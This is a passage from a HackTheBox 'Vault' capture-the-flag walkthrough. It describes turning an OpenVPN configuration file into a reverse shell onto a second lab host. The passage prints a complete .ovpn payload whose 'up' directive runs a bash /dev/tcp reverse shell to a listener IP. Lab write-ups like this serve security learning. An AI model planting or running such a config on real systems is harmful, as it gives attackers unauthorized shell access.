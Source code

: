![](/images/hackthebox/vault/29.png)
<br> At this point I stopped and searched on that topic , because I didn't know how to get a reverse shell from an `ovpn` file , and [this article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) really helped.
<br> We are going to listen on the first host (`ubuntu`) and use the `ovpn` configurator to get a reverse shell on the second host (`DNS`) , We need to know the ip address of `ubuntu` on that subnet , `ifconfig` :
![](/images/hackthebox/vault/30.png)
<br> ip : `192.168.122.1`
<br> Reverse shell payload : 
```
remote 192.168.122.1
dev tun
nobind
script-security 2 
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/9898 0>&1'"
```